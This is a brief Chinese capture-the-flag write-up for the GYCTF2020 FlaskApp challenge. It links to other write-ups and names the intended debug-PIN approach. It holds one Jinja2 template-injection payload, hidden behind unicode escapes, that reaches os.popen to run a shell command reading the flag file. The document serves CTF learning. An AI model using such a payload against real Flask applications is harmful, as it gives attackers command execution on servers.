 # WP
[[GYCTF2020]FlaskApp](https://mayi077.gitee.io/2020/04/17/GYCTF2020-FlaskApp/)<br />[[GYCTF2020]FlaskApp - 何止(h3zh1) - 博客园](https://www.cnblogs.com/h3zh1/p/12694933.html)<br />[记一次Flask模板注入学习 [GYCTF2020]FlaskApp - seven昔年 - 博客园](https://www.cnblogs.com/MisakaYuii-Z/p/12407760.html)
# 知识点
### 自己的解法
python SSTI<br />unicode编码进行绕过
```python
{{()["\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f"]["\u005f\u005f\u0062\u0061\u0073\u0065\u0073\u005f\u005f"][0]["\u005f\u005f\u0073\u0075\u0062\u0063\u006c\u0061\u0073\u0073\u0065\u0073\u005f\u005f"]()[80]["\u006c\u006f\u0061\u0064\u005f\u006d\u006f\u0064\u0075\u006c\u0065"]("\u006f\u0073")["\u0070\u006f\u0070\u0065\u006e"]("\u0063\u0061\u0074\u0020\u002f\u0074\u0068\u0069\u0073\u005f\u0069\u0073\u005f\u0074\u0068\u0065\u005f\u0066\u006c\u0061\u0067\u002e\u0074\u0078\u0074")|attr("read")()}}
```
### 预期解（计算pin码）
[Flask debug pin安全问题 - 先知社区](https://xz.aliyun.com/t/2553#toc-1)
